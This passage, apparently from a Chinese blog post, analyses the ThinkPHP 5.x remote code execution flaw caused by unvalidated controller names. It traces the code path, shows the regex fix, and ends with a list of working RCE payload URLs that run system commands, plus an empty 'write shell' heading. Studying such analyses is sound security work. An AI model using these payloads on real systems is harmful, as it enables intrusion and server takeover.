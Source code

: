 然后进入`init()`

```php
public function init()
    {
        // 解析默认的URL规则
        $result = $this->parseUrl($this->dispatch);

        return (new Module($this->request, $this->rule, $result))->init();
    }
```
进入`parseUrl()`

![image](https://y4er.com/img/uploads/20191127223006.jpg)

进入`parseUrlPath()`

![image](https://y4er.com/img/uploads/20191127227841.jpg)

在此处从url中获取`[模块/控制器/操作]`，导致parseUrl()返回的route为
![image](https://y4er.com/img/uploads/20191127228865.jpg)

导致`thinkphp/library/think/App.php:406`的`$dispatch`为

![image](https://y4er.com/img/uploads/20191127221878.jpg)

直接调用了`input()`函数，然后会执行到 `App` 类的 `run` 方法，进而调用 `Dispatch` 类的 `run` 方法，该方法会调用关键函数 `exec` `thinkphp/library/think/route/dispatch/Module.php:84`，进而调用反射类
![image](https://y4er.com/img/uploads/20191127221279.jpg)

此时反射类的参数均可控，调用`input()`

![image](https://y4er.com/img/uploads/20191127223123.jpg)

在进入`input()`之后继续进入`$this->filterValue()`

![image](https://y4er.com/img/uploads/20191127226668.jpg)

跟进后执行`call_user_func()`，实现rce

![image](https://y4er.com/img/uploads/20191127221161.jpg)
整个流程中没有对控制器进行合法校验，导致可以调用任意控制器，实现rce。

### 修复
```
// 获取控制器名
$controller = strip_tags($result[1] ?: $config['default_controller']);

if (!preg_match('/^[A-Za-z](\w|\.)*$/', $controller)) {
	throw new HttpException(404, 'controller not exists:' . $controller);
}
```
大于5.0.23、大于5.1.30获取时使用正则匹配校验
### payload
命令执行
```
5.0.x
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
5.1.x
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
写shell
```
```